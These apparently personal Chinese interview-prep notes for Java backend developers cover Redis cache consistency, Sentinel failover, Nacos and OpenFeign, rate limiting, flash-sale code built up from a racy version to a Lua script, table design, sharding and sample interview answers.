2. 做增删改的时候要通知redis做删除操作。（大部分情况可以做到一致。但是并发的情况可能会不一致，还得依托缓存有效期）
3. 延时双删。（能够解决并发问题，但是不能完全解决。）

mysql的数据和redis缓存中的数据，在多线程操作的时候有可能数据不一致。根据cap定理和base理论，我们可以采用延时双删模式解决这个问题。延时双删，就是指线程在修改mysql数据的时候同时删除一下redis，延迟0.1秒再删除一下redis。这样可以解决掉99%的不一致问题。剩下的1%交给redis里面的定时器。因为我们放入到redis的数据都会给一个有效时长。

## 哨兵机制的基本流程

```markdown
哨兵机制就是Redis下的一个特殊的进程，主从库运行的同时，他也在运行。哨兵主要负责的就是三个任务：监控、选主和通知。

1.监控
哨兵在运行的时候，周期性地给所有的主从库发送PING命令，检测他们是否仍然在在线运行。如果从库没有在规定时间响应哨兵的PING命令，哨兵就会把从库标记为“下线状态”；同理，如果主库没有在规定时间响应哨兵的PING命令，哨兵就会判定主库下线，然后开始自动选主流程。
2.选主
哨兵就会从很多的从库里，按照一定的规则选择一个从库实例，把它作为新的主库。这一步完成之后，现在的集群里就又了新的主库。
3.通知
最后哨兵会把新的主库连接信息发送给其他从库，让他们执行replicaof命令，和新的主库连接，并进行数据的复制。同时，哨兵会把新主库的连接信息通知给客户端，让他们把请求发送到新主库上。
```

通知任务相对比较简单，哨兵只需要把新主库信息发给从库、客户端。让他们与新主库建立连接就行，不涉及决策的逻辑。但是，在监控和选主中，哨兵需要做出两个决策；

- 监控，判定主库是否下线状态
- 选主，哨兵要选择哪个从库作为主库

哨兵判断主观下线和客观下线

```markdown
哨兵会使用PING命令来检测自己和主、从库的网络连接情况，用来判断实例的状态。如果哨兵发现主库和从库PING命令的响应超时了，那么，哨兵就会把它标记为“主观下线”。
如果哨兵判定的是从库，一般对外的业务影响不大。集群对外的服务也不会间断。如果检测的主库“主观下线”，开启主从切换，有一种可能存在，这次判断主库的网络访问压力大，没有及时响应。这样就造成了误判。
在判断主库是否下线时，不能由一个哨兵决定，只有大多数的哨兵实例，都判断主库已经“主观下线”，主库才会标记为客观下线，这样也就解决了误判。

```

如何选定新主库

```markdown
1.优先级最高的从库的得分高：
用户可以通过配置slave-priority配置项，给不同的从库设计优先级。
2.和旧主库同步最接近的从库的分高。
主库会用master_repl_offset记录当前的最新写操作在repl_backlog_buffer中的位置，而从库会用slave_repl_offset这个记录当前的复制进度。
3.ID号小的从库得分高
在优先级和复制进度都相同的情况下，ID号最小的从库得分最高，会被选为新主库。
```

## nacos 的工作原理

当各个微服务启动后，会自动到nacos的注册中心进行注册，注册中心会形成注册列表。该注册列表是动态更新的。每个微服务会每隔五秒做一次心跳检测。当注册中心超过15秒没有接受到微服务的心跳，先把该服务设置为非健康状态，当超过30秒没有收到心跳，把该服务设置为下线状态。注册列表中记录的是各个微服务的服务名和服务ip以及端口号信息。

## openFeign的工作原理&#x20;

当服务的调用者要调用服务的提供者时，我们需要在调用方定义提供方的接口。在该接口中我们定义了远程调用的服务名。在方法上面定义远程调用的路径。当我们要发起调用时，调用者会先从nacos注册中心获取注册列表，然后根据接口中的服务名，定位到可以调用那些服务。底层会利用负载均衡策略把请求分发到服务的提供者上面。

## 常见的限流算法

1. 基于计数的限流器。容易出现毛刺问题。
2. 基于滑动窗口的限流。不能均衡的利用资源，很多请求被拒绝
3. 漏桶算法。利用了削峰填谷解决了流量高峰问题。不能解决流量突发问题。
4. 令牌桶算法。可以尽大限度的利用服务，在流量突发的情况下可以达到极致。

## 各个组件的流量(QPS)参考能力

1. Nginx = 5W
2. Tomcat = 1K
3. MySQL = 2K
4. Redis = 5W
5. ES = 7W
6. RabbitMQ = 10W

# 场景案例

## 个人技术栈介绍

工作三年了，主要做java后端开发，最近在做一个视频app项目，主要就是一个c2c类型的视频网站，用户可以发视频，观看视频，进行交互等。主要的模块有视频模块，评论模块，用户模块，搜索模块等。主要的技术栈就是java的常规技术，比如，spring技术体系，mybatis框架，前端了解vue，数据库是mysql，中间件有nginx,mycat,redis,elasticsearch,rabbitmq。微服务用过springcloud的相关组件。运维方面linux系统比较熟悉，容器化技术用过docker。基础方面对java虚拟机有所研究，看过jdk底层源码，研究过多线程并发编程，spring框架的源码也看过，研究过常规的算法，力扣上刷过一百多道题目。这就是我的基本情况。

## 使用SpringAop和RabbitMQ实现日志的记录功能。

思路：



操作步骤：

1. 建表，把日志表创建出来。
2. 用mybatisplus生成log模块的增删改查基础代码。
3. 把日志模块的springboot环境搭建起来。创建配置文件，创建入口类。
4. 到商品模块中给业务类增加额外功能。LogAspect（springaop的额外增强类。）。
5. LogAspect中准备log对象的各个属性值。封装到log对象里面。把log对象转换为一个json串，通过rabbitmq的生产者代码把json串作为一个消息发给rabbitmq的消息队列。
6. 在日志模块中增加一个监听消息队列收到消息的监听器。这个监听器就是rabbitmq的消费者。消费者收到消息后，将json串转换为log对象，然后调用业务类的插入方法把日志对象存储到数据库里面。

## Redis中秒杀的功能。

商城项目中有个秒杀功能，一元抢iphone手机。商城有十台iphone要促销，吸引顾客。现在要抢的人比较多。并发量大。

1. 第一版代码
   ```java
   @GetMapping("/secKill")
   public String secKill(int pid){
       String key="product:"+pid;
       //获取到操作string的工具类
       ValueOperations<String, Object> stringObjectValueOperations = redisTemplate.opsForValue();
       //获取到redis里面商品的数量
       Integer count = (Integer)stringObjectValueOperations.get(key);
       //判断商品数量是否大于0
       if(count>0){
           //大于0了就对商品数量减一
           stringObjectValueOperations.decrement(key);
           System.out.println("购买成功，还剩"+(count-1)+"个");
           return "购买成功，还剩"+count+"个";
       }
       System.out.println("购买失败");
       return "购买失败";
   }
   ```
   第一版代码在多线程的环境中运行是有问题的。
2. 第二版使用redis的乐观锁
   ```java
   @GetMapping("/secKill2")
   public String secKill2(int pid){
       //1.先获取redis里面的库存数量
       String key="product:"+pid;
       //开启一下事务
       redisTemplate.setEnableTransactionSupport(true);
       redisTemplate.watch(key);
       ValueOperations<String, Object> stringObjectValueOperations = redisTemplate.opsForValue();
       Integer count = (Integer) stringObjectValueOperations.get(key);
       redisTemplate.multi();
       //2.判断是否大于0
       if (count > 0) {
           //让库存减一，把库存减一放入到一个事务里面，然后监听product:1这个键是否被其他事务修改
           stringObjectValueOperations.decrement(key);
       }
       List<Object> execList = redisTemplate.exec();//真正执行事务
       if(execList!=null&&execList.size()!=0){
           System.out.println("购买成功！还有" + (count - 1) + "个");
           return "购买成功！还有" + (count - 1) + "个";
       }else{
           System.out.println("购买失败");
           return "购买失败";
       }
   }
   ```
   第二版的代码会出现很多人抢商品但是到最后商品还有留存的问题。
3. 第三版使lua脚本实现原子操作

   lua脚本：
   ```lua
   local prodid=KEYS[1];
   local qtkey="product:"..prodid;
   local num= redis.call("get" ,qtkey);
   if tonumber(num)<=0 then 
     return 0; 
   else 
     redis.call("decr",qtkey);
   end
   return tonumber(num);
   ```
   ```java
   @GetMapping("/secKill3")
   public String secKill3(int pid){
       long result = 0;
       try {
           //调用lua脚本并执行
           DefaultRedisScript<Long> redisScript = new DefaultRedisScript<>();
           redisScript.setResultType(Long.class);//返回类型是Long
           //lua文件存放在resources目录下
           redisScript.setScriptSource(new ResourceScriptSource(new ClassPathResource("test.lua")));
           result = redisTemplate.execute(redisScript, Arrays.asList(pid+""));
       } catch (Exception e) {
           e.printStackTrace();
       }
       if(result>0){
           System.out.println("购买成功，还剩"+(result-1)+"个");
           return "购买成功，还剩"+(result-1)+"个";
       }
       System.out.println("购买失败");
       return "购买失败";
   }
   ```

## 商品模块的商品属性表的设计

```markdown
商品模块复杂的是表设计，最初设计是只有一个张商品表。但是有一个问题就是不同类型的商品属性是不一样的。比如手机有cpu和屏幕这些属性，但是衣服没有，衣服有颜色，尺寸，布料这些属性。一个大型商城系统需要很多类型的商品。所以不适合建到一张表里面。
我们为了能够灵活存储商品属性我们又设计了一个属性表，来存储各个类型的商品都有哪些不同的属性，一个属性就对应属性表里面的一行数据。
然后我们需要存储每个商品的商品属性值，这时候我们又创建了一个属性值表。来存储每个属性对应的属性值。
这样就巧妙地把商品表中的列转换成了另外两张表的行数据。
```



修改后一张表被改为下面四张表



## ES的站内分词高亮查询功能。



## 在哪些场景中用过多线程开发

我们的应用中有很多用户信息，我们有个场景就是给用户发营销短信，单个线程太慢，我们就使用线程池创建多个线程，一个线程负责一部分用户去发送短信。

# 项目亮点

## 项目的业务架构图，技术选型



## 项目业务的复杂度

一些事件发生了，会触发用户邮件，短信，推送，站内信息这些内容可能是不同的组合。

观察者模式，每个事件有哪些通知抽取策略模式的接口，动态组合通知。并把配置放入配置中心。

## 数据库单库单表数据量大如何水平和垂直拆分

什么是分库，一个微服务就使用一个数据库。分表，表里面的数据量很大，我们需要对表进行拆分。表的分法有两种，一种是水平分，另一种是垂直分。垂直分就是按照表里面字段的使用频次把一张表拆分成多张表。水平分，是指mysql表里面的数据量过大，造成读写速度变慢。mysql中数据超过千万后，就出现数据速度下降，这时就需要对数据进行按照id分配到不同的数据库服务器上。常见的拆分手法有：范围分（数据倾斜），hash分（不容易扩展），一致性hash分（解决了两个问题）

## 缓存和数据库如何保持一致性

延时双删技术，如何实现延时删除。1.采用开启新的定时线程来完成。2.使用rabbitmq的延迟队列完成。

## 跨服务的分布式事务如何解决

分布式事务的常见解决手段。

## 实现分词高亮查询

从产品提出分词搜索的需求说起，再说自己第一感觉使用like，后来讨论排除使用like，怎么选中了es，es比like好的地方。如何保证es数据跟mysql数据的一致性。双写模式和canal的比较。

## 自媒体文章审核的具体做法

1. 自媒体端发布文章后，开始审核文章
2. 审核的主要是审核文章的内容（文本内容和图片）
3. 借助第三方（阿里云、百度云等）提供的接口审核文本
4. 借助第三方提供的接口审核图片，由于图片存储到了文件服务器中，需要先下载才能审核
5. 如果审核失败，则需要修改自媒体文章的状态，status:2 审核失败 status:3 转到人工审核
6. 如果审核成功，则需要在文章微服务中就可以查询出该文章

## 看你最近做的这个项目持续时间还挺长的，那么这个过程中你觉得难度最大的是什么？

难度最大的事情我印象中有两个，第一个是刚入公司的时候，公司使用的微服务框架没有用过，而且项目的进度比较赶，我需要尽快熟悉并参与到项目的部分功能开发。于是我用了三天的时间把spring
cloud的框架核心组件使用和工作机制做了一个快速的了解，并在指定的时间内完成了开发和交付。第二个，在项目中遇到了版本冲突的问题，导致了NoSuchMethodException找了很多资料，最后我是一个个的测试，花了一天的时间定位到了jar包版本的问题，最后通过maven里面的exclude标签排除掉了不兼容的版本后解决了这个问题。从这个问题上让我学习到了有效的解决问题的办法。

通用框架：

1. 这个问题是在什么情况下发生的。
2. 遇到这个问题后你是怎么思考的，如何去分解这个问题。
3. 如何去确定问题的解决方案。
4. 你解决了这个问题后是否做了总结和分析。获取到了什么样的经验。
